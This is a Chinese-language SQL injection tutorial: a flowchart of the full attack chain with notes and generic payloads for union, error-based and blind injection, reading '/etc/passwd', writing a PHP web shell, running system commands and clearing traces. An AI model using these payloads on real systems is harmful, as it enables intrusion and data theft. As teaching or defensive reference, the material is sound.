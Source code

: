 # SQL注入完整攻击流程图

```
graph TD
A[开始] --> B{目标识别}
B -->|Web应用| C[注入点探测]
C --> D[参数篡改测试]
D --> E{是否报错?}
E -->|是| F[确定注入类型]
E -->|否| G[盲注检测]
G --> H{页面差异/延迟?}
H -->|是| I[确认盲注存在]
H -->|否| J[结束检测]

F --> K[字符型/数字型判断]
K --> L{是否有回显?}
L -->|是| M[联合查询注入]
L -->|否| N[选择注入方式]
N --> O[报错注入]
N --> P[布尔盲注]
N --> Q[时间盲注]

M --> R[字段数探测]
R --> S[确定显示位]
S --> T[获取数据库信息]
T --> U[数据库版本/用户]
U --> V[爆库名]

P --> W[构造布尔表达式]
W --> X[逐位数据猜测]
Q --> Y[构造时间延迟]
Y --> Z[基于响应的推断]

O --> AA[触发报错函数]
AA --> AB[提取错误信息]

V --> AC[爆表名]
AC --> AD[爆列名]
AD --> AE[拖取数据]

AE --> AF{权限提升?}
AF -->|是| AG[系统命令执行]
AF -->|否| AH[数据导出]

AG --> AI[数据库提权]
AI --> AJ[OS交互]
AJ --> AK[横向移动]

AH --> AL[数据整理分析]
AK --> AL
AL --> AM[清理痕迹]
AM --> AN[攻击完成]

style C fill:#f9f,stroke:#333
style I fill:#bbf,stroke:#555
style T fill:#f96,stroke:#900
style AE fill:#6f9,stroke:#090
style AG fill:#f99,stroke:#c00
```

![Snipaste_2025-04-19_12-51-46](./assets/images/Snipaste_2025-04-19_12-51-46.png)

![Snipaste_2025-04-19_12-52-13](./assets/images/Snipaste_2025-04-19_12-52-13.png)

## 流程图说明

**目标识别**：确定存在数据库交互的Web应用

**注入点探测**：

> 测试URL参数/表单输入
>
> 添加`'`、`"`、`\`等特殊字符

**错误判断**：

> 直接报错：快速确认注入类型
>
> 无报错：进入盲注检测流程

**注入方式选择**：

联合查询注入（有回显）

```sql
UNION SELECT 1,@@version,3
```

报错注入（显示错误信息）

```sql
AND updatexml(1,concat(0x7e,version()),1)
```

布尔盲注（页面内容差异）

```sql
AND ascii(substr(database(),1,1))>100
```

时间盲注（响应延迟）

```sql
AND IF(1=1,SLEEP(5),0)
```

**信息收集阶段**：

> 获取数据库版本：`@@version`
>
> 列出数据库：`information_schema.schemata`
>
> 爆表名：`information_schema.tables`
>
> 爆列名：`information_schema.columns`

**数据提取**：

常规数据获取：

```sql
UNION SELECT user,password FROM users
```

大段数据获取：

```sql
#用于从服务器文件系统中读取指定文件的内容，并以字符串形式返回
LOAD_FILE('/etc/passwd')
```

**权限提升**：

数据库写文件：

```sql
#可以将查询结果写入服务器上的文件中
INTO OUTFILE '/var/www/shell.php'
```

执行系统命令：

```sql
#在 MySQL 中，默认情况下并不提供类似 MSSQL 的 xp_cmdshell 功能来直接执行系统命令。 可以通过安装用户自定义函数（UDF）来实现类似的功能。
MSSQL: xp_cmdshell('whoami')
#sys_exec() 是由第三方插件 lib_mysqludf_sys 提供的函数，允许在 MySQL 中执行系统命令
MySQL: sys_exec()
```

**横向移动**：

> 内网扫描
>
> 密码爆破
>
> 漏洞利用